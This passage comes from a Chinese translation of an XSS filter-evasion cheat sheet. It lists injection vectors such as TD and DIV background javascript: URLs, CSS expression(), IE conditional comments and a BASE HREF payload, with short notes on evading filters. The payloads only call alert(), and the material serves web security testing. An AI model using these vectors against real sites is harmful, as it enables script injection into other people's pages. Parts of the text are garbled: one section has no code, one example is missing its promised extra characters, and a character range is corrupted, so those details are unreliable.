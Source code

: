 像上面一样，TD 也可以通过 BACKGROUND 来包含 javascript xss 向量

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

## DIV background-image

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

## 使用 unicoded 编码 xss 利用代码的 DIV background-image

这是被轻微的修改去混淆 url 参数。他是最早被发现被 Renaud Lifchitz 用于攻击 hotmail。

## 附加额外字符的 DIV background-image

Rnaske 开发了一个 XSS fuzzer 去探测可以在开括号和 javascript 之间加入哪些额外字符在 IE 和安全模式下的 Netscape 8.1。都是一些十进制的字符，但是你也可以用十六进制来填充。（下面这些编码字符可以被使用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

## DIV expression

它的一个变体是更加有效的去绕过实际的 xss 过滤器是在冒号和表达式之间添加换行符。

```
<DIV STYLE="width: expression(alert('XSS'));">
```

## html 条件选择注释块

只能工作在 IE5.0 以及更新版或是使用了 ie 渲染引擎的 Netscape 8.1 。 一些网站认为任何包裹在注释中的内容都是安全的，因此并不会被移除。这将允许我们的 xss 向量。或者系统可能通过添加注释对某些内容去试图无害的渲染它。如我们所见，这有时并不起作用。

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
 <![endif]-->
```

## BASE 标签

工作 ie 或是使用了安全模块的 Netscape 8.1，你需要使用 "//" 斜体文本去避免 javascript 错误。这需要当前网站使用相对路径（例如 images/image.jpg）而不是绝对路径。如果路径开始用一个斜杠（例如 "/images/image.jpg"），你需要去掉 xss 向量中的一个斜杠（只有在两个斜杠的情况下才会起到注释作用）

```
<BASE HREF="javascript:alert('XSS');//">
```

## OBJECT 标签

